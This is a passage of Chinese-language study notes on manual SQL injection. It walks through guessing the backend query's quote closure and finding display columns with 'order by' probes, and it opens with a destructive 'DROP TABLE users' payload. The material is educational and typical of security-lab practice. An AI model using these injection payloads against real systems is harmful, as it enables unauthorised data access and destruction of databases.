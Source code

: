 ```sql
1'; DROP TABLE users; -- 
```



## 第二步：猜测后台查询语句

根据第一步的注入,

```sql
select * from table where id = ' ';

猜测闭合方式''
我们要在闭合中写入我们的注入语句
我们的整体框架：
select * from table where id = ' ';
' #
前面这个' 为了闭合查询语句前面的闭合
# 为了注释掉后面的内容
合起来：
select * from table where id = ''我们的注入语句 #';
```



## 第三步：查询显示位（order by）

什么是显示位：就是能在前台显示内容的字段

简单来说就是查询语句查询的字段

```sql
select user,password from table where id = ' ';
user,password 这两个就是显示字段
```



#### 方法1：使用：order by

不断修改字段进行排序，找到最大显示字段。找到报错与不报错的临界字段

```sql
1' order by 3#
```

不存在报错

![image-20240913173538996](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240913173538996.png)

存在

```
1' order by 2#
```



<img src="C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240913173618350.png" alt="image-20240913173618350" style="zoom:67%;" />
